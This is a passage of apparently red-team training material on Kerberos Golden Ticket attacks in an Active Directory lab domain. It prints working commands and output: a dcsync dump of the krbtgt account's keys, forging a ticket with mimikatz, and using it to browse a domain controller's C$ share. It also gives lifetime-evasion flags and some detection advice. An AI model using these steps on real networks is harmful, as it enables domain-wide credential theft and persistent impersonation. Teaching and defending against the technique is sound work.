 A Golden Ticket is a forged TGT, signed by the domain's krbtgt account. Whereas a Silver Ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A Golden Ticket can be used to impersonate any user, to any service, on any machine in the domain; and to add insult to injury - the underlying credentials are never changed automatically. For that reason, the `krbtgt` NTLM/AES is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently).

```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 2/19/2021 1:31:57 PM
Object Security ID   : S-1-5-21-3263068140-2042698922-2891547269-502
Object Relative ID   : 502

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```

```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
User      : Administrator
Domain    : dev.cyberbotic.io (DEV)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa - aes256_hmac
Lifetime  : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM
-> Ticket : golden.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     05/18/2021 10:23:49   fe1c92f2af2eb37e7af4463c8a4ea7
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/06/2021 09:40:04   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     05/17/2021 13:22:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/25/2021 10:23:35   Shares
          dir     02/19/2021 11:49:20   System Volume Information
          dir     03/25/2021 10:27:55   Users
          dir     05/17/2021 18:55:39   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 850mb    fil     05/25/2021 08:52:07   pagefile.sys

beacon> rev2self
```
  
There are a few methods to help detect golden tickets.  The more concrete ways are by inspecting Kerberos traffic on the wire.  By default, Mimikatz signs the TGT for 10 years, which will stand out as anomalous in subsequent TGS requests made with it.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

>  `Get-DomainPolicy | select -expand KerberosPolicy`.

Unfortunately, the TGT's lifetime is not logged in 4769's, so you won't find this information in the Windows event logs.  However, what you can correlate is seeing 4769's _without_ a prior 4768.  It's not possible to request a TGS without a TGT, and if there is no record of a TGT being issued, we can infer that it was forged offline.

Other little tricks defenders can do is alert on 4769's for sensitive users such as the default domain administrator account.